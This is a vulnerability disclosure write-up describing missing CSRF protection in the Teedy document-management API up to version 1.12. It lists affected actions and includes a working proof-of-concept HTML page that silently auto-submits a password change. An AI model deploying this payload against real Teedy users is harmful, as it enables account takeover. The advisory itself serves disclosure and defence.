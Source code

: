 # CVE-2024-YYYY

## Summary

| ID                    | CVE-2024-YYYY                                            |
|-----------------------|----------------------------------------------------------|
| **Type**              | CSRF                                                     |
| **Title**             | Multiple CSRF                                            |
| **Product impacted**  | Teedy                                                    |
| **Impacted version**  | <= 1.12                                                  |
| **CVSS Score**        | 6.5                                                      |
| **Author**            | Sopalinge                                                |

## Description

Due to the lack of Cross-Site Request Forgery (CSRF) protections, most requests of the Teedy API in versions 1.12 and prior are vulnerable to such attack. This allows unauthenticated remote attackers to trick users into unknowingly performing arbitrary actions, such as editing profile information or tampering with the application data.

The only requests that are not vulnerable are the ones that ask for the account password, as it can't be guessed by the attacker.

The session cookie `SameSite` attribute is not defined, therefore the exploitation of POST CSRF will depend on the browser of the victim.

## Impact

The Teedy API documentation did not reveal any sensitive GET requests. However, multiple POST/PUT/DELETE... requests are sensitive and vulnerable to CSRF. The following requests are vulnerable (non-exhaustive list) :
 - Password change for current user
 - Account information change for any user
 - Account deletion for current or any user
 - Disable TOTP authentication for any user
 - Create a new user
 - Add any user to any group
 - Remove any user to any group
 - Delete group
 - ...


## Proof of concept

This PoC will trick the user into changing its current password for the one defined in the `value` attributes below. The attacker has to host the following page onto its server and trick a user connected to Teedy to visit this website.
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://172.21.114.187:8080/api/user" method="POST">
      <input type="hidden" name="password" value="hackedpwd" />
      <input type="hidden" name="passwordconfirm" value="hackedpwd" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

> [!IMPORTANT]
> In Chromium-based browser, the user needs to have connected 2 min prior to visiting the attacker page, due to the default behaviour of the SameSite attribute when not defined [^1].

[^1]: [Chromium SameSite FAQ](https://www.chromium.org/updates/same-site/faq/)

## Timeline

- 23/10/2024 : Vulnerability discovered
- 24/10/2024 : Vendor contacted
- XX/XX/2024 : Official fix published
- XX/XX/2024 : CVE ID attributed
- XX/XX/2024 : CVE publicly disclosed


## References

- [Teedy source code](https://github.com/sismics/docs)
